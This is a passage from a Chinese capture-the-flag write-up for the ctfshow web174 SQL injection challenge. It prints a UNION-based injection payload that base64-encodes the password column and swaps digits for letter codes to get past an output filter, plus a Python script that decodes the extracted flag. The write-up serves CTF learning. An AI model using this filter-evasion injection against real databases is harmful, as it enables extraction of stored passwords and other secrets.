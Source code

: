 ![](.\SQL注入\web173.png)

### web174

本题过滤了一切带有数字的值回显出来，那就只能使用replace()语法将数字全部转换成字母来进行注入了

```
0' union select 'a',replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(to_base64(password),"1","@A"),"2","@B"),"3","@C"),"4","@D"),"5","@E"),"6","@F"),"7","@G"),"8","@H"),"9","@I"),"0","@J") from ctfshow_user4 where username="flag" --+
```

但是，这样子会让flag也变成加密形式，因此需要写脚本还原

```
import base64

flag64 = "Y@CRmc@Bhvd@Cs@JYzcxYjRjYy@AmMjZkLTQ@BYjctYmU@JZS@AjYTMwMmFjZWU@EODZ@I"
flag = flag64.replace("@A", "1").replace("@B", "2").replace("@C", "3").replace("@D", "4").replace("@E", "5").replace(
    "@F", "6").replace("@G", "7").replace("@H", "8").replace("@I", "9").replace("@J", "0")

print(base64.b64decode(flag))
```

最后解码得到flag的值
